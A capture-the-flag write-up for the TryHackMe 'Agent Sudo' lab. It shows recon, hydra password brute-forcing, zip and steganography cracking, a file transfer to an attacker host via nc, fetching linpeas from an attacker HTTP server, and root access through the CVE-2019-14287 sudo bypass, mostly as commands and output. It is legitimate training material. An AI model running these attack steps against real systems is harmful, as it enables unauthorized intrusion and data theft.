



# [Agent Sudo - You found a secret server located under the deep sea. Your task is to hack inside the server and reveal the truth.](https://tryhackme.com/r/room/agentsudoctf)

## Information Gathering

### Nmap
Nmap is a network exploration tool, which allows us to scan and determine open ports.
```
user@parrot ~/writeup/agent-sudo $ nmap -sC -sV -Pn <TARGET-IP>
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-18 10:04 CEST
Nmap scan report for <TARGET-IP>
Host is up (0.037s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ef:1f:5d:04:d4:77:95:06:60:72:ec:f0:58:f2:cc:07 (RSA)
|   256 5e:02:d1:9a:c4:e7:43:06:62:c1:9e:25:84:8a:e7:ea (ECDSA)
|_  256 2d:00:5c:b9:fd:a8:c8:d8:80:e3:92:4f:8b:4f:18:e2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Annoucement
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
We have three interesting ports:
- 21 (ftp)
- 22 (ssh)
- 80 (http)

### Gobuster
With gobuster, we can brute-force URIs (directories and files), DNS subdomains and more.
```
user@parrot ~/writeup/agent-sudo $ gobuster dns -d <TARGET-IP> -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
```
```
user@parrot ~/writeup/agent-sudo $ gobuster dir -u <TARGET-IP> -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
```
Both scans finished without returning results.

### Inspecting the website
By inspecting the index page, we get one essential information: To access, we have to set the user-agent to a specific codename. That means, we have to identify the pool of agent-names. Additionally, the introduction-text already gives us one of those codenames: **Agent R**.
Lets try to use 'R' as the user-agent. This can be easily done with `burpsuite`, since `burpsuite` allows us to directly edit HTTP-Headers (where the information "user-agent" lies in) and send HTTP-Requests.



As you can see, we are not getting through, because the request gets filtered for Agent R. The context of the page does change though. It tells us there are 25 employees. 
According to this, there are 25 or 26 employees in total (depends if Agent R counts as an employee or not) and the agent name we know is an alphabetical letter. Assuming the codename-pool simply consists of the alphabetical letters from A-Z, we can try to bruteforce through the requests changing the User-Agent everytime and see if we either get more information or even get logged in.

It seems to work for the Agent 'C'. The response includes a location URI to a hidden file.



Visiting `<TARGET-IP>/agent_C_attention.php` gives us the following text:
```
Attention chris,

Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak!

From,
Agent R
```
- C and R are involved in a deal
- there is another agent named J
- R wants C to talk to J about something
- C's password is weak
- C's name is Chris

## Cracking hashes and passwords

### FTP access
We know that Chris, Agent C, has a weak password. In terms of cracking, we should be able to bruteforce it using `hydra`.
```
user@parrot ~/writeup/agent-sudo $ echo 'chris' > username    
user@parrot ~/writeup/agent-sudo $ hydra -L username -P /usr/share/seclists/Passwords/xato-net-10-million-passwords-10000.txt ftp://<TARGET-IP> -s 21 -o result

result: [21][ftp] host: <TARGET-IP>   login: chris   password: crystal
```
We successfully cracked the ftp password for the user 'chris': it is **crystal**.

Due to the fact that we have Agent C's ftp credentials, we should try to establish a connection.
```
user@parrot ~/writeup/agent-sudo $ ftp <TARGET-IP>
Connected to <TARGET-IP>.
220 (vsFTPd 3.0.3)
Name (<TARGET-IP>:user): chris
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 
```
```
ftp> ls
229 Entering Extended Passive Mode (|||50174|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0             217 Oct 29  2019 To_agentJ.txt
-rw-r--r--    1 0        0           33143 Oct 29  2019 cute-alien.jpg
-rw-r--r--    1 0        0           34842 Oct 29  2019 cutie.png
226 Directory send OK.
ftp> get To_agentJ.txt
```
There are some interesting files within the ftp directory. "To_agentJ.txt" reveals a message saying that J has real alien photos and J's login password is somehow stored inside the fake photos (cute-alien.jpg and cutie.png). Our next step is going to get logged in as Agent J and therefore, we have to filter out his password from the two given images.

### Inspecting cutie.png
Assuming the file has some type of message in it, it is a good approach to `binwalk` it. Basically, `binwalk` allows us to search binary images for embedded files.
```
user@parrot ~/writeup/agent-sudo $ binwalk cutie.png 

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             PNG image, 528 x 528, 8-bit colormap, non-interlaced
869           0x365           Zlib compressed data, best compression
34562         0x8702          Zip archive data, encrypted compressed size: 98, uncompressed size: 86, name: To_agentR.txt
34820         0x8804          End of Zip archive, footer length: 22

user@parrot ~/writeup/agent-sudo $ 
```
Our image includes a zip archive. The output of binwalk tells us the zip archive is encrypted, so after extracting it from the image, we will have to crack the password for it. We will use `john` for this. Keep in mind that `john` needs the file to be in a specific format. Before starting to crack, we have to convert the zip archive in a for john usable form. This is done with `zip2john`.
```
user@parrot ~/writeup/agent-sudo $ binwalk -e cutie.png
user@parrot ~/writeup/agent-sudo $ cd _cutie.png.extracted
user@parrot ~/writeup/agent-sudo/_cutie.png.extracted $ sudo zip2john 8702.zip > 8702_john

user@parrot ~/writeup/agent-sudo/_cutie.png.extracted $ sudo john -w /usr/share/seclists/Passwords/500-worst-passwords.txt 8702_john 
Using default input encoding: UTF-8
Loaded 1 password hash (ZIP, WinZip [PBKDF2-SHA1 256/256 AVX2 8x])
Cost 1 (HMAC size) is 78 for all loaded hashes
Will run 6 OpenMP threads
Proceeding with wordlist:/usr/share/john/password.lst
Press 'q' or Ctrl-C to abort, almost any other key for status
alien            (8702.zip/To_agentR.txt)     
1g 0:00:00:00 DONE (2024-04-18 11:24) 14.28g/s 50657p/s 50657c/s 50657C/s 123456..sss
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
user@parrot ~/writeup/agent-sudo/_cutie.png.extracted $ 
```
The password for the zip archive seems to be **alien**. Lets check whats inside by opening it (`7z e 8702.zip`): a new message.
```
Agent C,

We need to send the picture to 'QXJlYTUx' as soon as possible!

By,
Agent R
```
'QXJlYTUx' looks base64-encoded. There are several websites providing a service to decode/encode base64, but we can also do that directly within our terminal.
```
user@parrot ~/writeup/agent-sudo/_cutie.png.extracted $ echo 'QXJlYTUx' > to_who
user@parrot ~/writeup/agent-sudo/_cutie.png.extracted $ base64 -d to_who 
Area51
user@parrot ~/writeup/agent-sudo/_cutie.png.extracted $ 
```
Area51 seems more reasonable.

### cute-alien.jpg
Lets see if the other image has some embedded files as well.
```
user@parrot ~/writeup/agent-sudo $ binwalk cute-alien.jpg 

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             JPEG image data, JFIF standard 1.01

user@parrot ~/writeup/agent-sudo $ 
```
Binwalk gives no results. Still, what if it is not an embedded file, but an embedded message/data (steganography). To analyze steganography, there is a program called `steghide`.
```
user@parrot ~/writeup/agent-sudo $ sudo steghide extract -sf cute-alien.jpg 
Enter passphrase: 
steghide: could not extract any data with that passphrase!
user@parrot ~/writeup/agent-sudo $ sudo steghide extract -sf cute-alien.jpg -p Area51
wrote extracted data to "message.txt".
user@parrot ~/writeup/agent-sudo $ cat message.txt 
Hi james,

Glad you find this message. Your login password is hackerrules!

Don't ask me why the password look cheesy, ask agent R who set this password for you.

Your buddy,
chris
user@parrot ~/writeup/agent-sudo $ 
```
We found hidden data: a new message including the password for James, Agent J. The password is **hackerrules!**.

## Logging into SSH
We can now establish a SSH connection as the user james. He will most likely have the user flag in his home directory.
```
user@parrot ~/writeup/agent-sudo $ ssh james@<TARGET-IP>
james@<TARGET-IP>'s password: 
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-55-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

 System information disabled due to load higher than 1.0


75 packages can be updated.
33 updates are security updates.


Last login: Tue Oct 29 14:26:27 2019
james@agent-sudo:~$ ls
Alien_autospy.jpg  user_flag.txt
james@agent-sudo:~$ cat user_flag.txt
```
Output: XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX

## Alien_autospy.jpg
The given task indicates we gotta perform an image reverse scan.
First, we have to get the image on the attacker machine. This can be done with `nc` or `scp`.

attacker:
```
user@parrot ~/writeup/agent-sudo $ nc -lvnp 9001 > Alien_autospy.jpg
```
target:
```
james@agent-sudo:~$ nc -N <ATTACKER-IP> 9001 < Alien_autospy.jpg
```
Now we just have to upload the file on an image reverse search platform, like TinEye, and check the results. It seems that the image is about the "Roswell alien autopsy".

## Privilege Escalation
We start by getting [linpeas](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS) on the target.
attacker:
```
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh -o linpeas.sh
```
and 
```
python3 -m http.server 8009
```

target:
```
james@agent-sudo:~$ curl <ATTACKER-IP>:8009/linpeas.sh -o linpeas.sh
```

After running, `sudo` seems exploitable (https://nvd.nist.gov/vuln/detail/CVE-2019-14287).



```
james@agent-sudo:~$ sudo -u#-1 /bin/bash
root@agent-sudo:~# cat /root/
.bash_history  .local/        root.txt       
.bashrc        .profile       .ssh/          
root@agent-sudo:~# cat /root/root.txt
To Mr.hacker,

Congratulation on rooting this box. This box was designed for TryHackMe. Tips, always update your machine. 

Your flag is
XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX

By,
DesKel a.k.a Agent R
root@agent-sudo:~# 
```

We successfully exploited sudo to promote to root. We gathered the root-flag and the answer for the bonus question is directly given in the end of root.txt: DesKel is the name of Agent R.


